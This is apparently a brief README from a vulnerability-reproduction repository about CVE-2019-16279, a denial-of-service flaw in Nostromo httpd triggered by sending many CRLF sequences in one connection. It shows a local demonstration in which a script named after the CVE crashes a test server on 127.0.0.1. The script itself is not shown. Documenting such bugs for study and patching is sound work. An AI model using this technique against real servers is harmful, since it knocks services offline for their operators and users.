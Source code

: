 # CVE-2019-16279 Nostromo httpd dos

### 一、漏洞简介

（CVE-2019-16279）dos

### 二、影响范围

### 三、复现过程

This bug exploit a memory error when sending too many \r\n in a single connexion.

Example


```bash
$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
```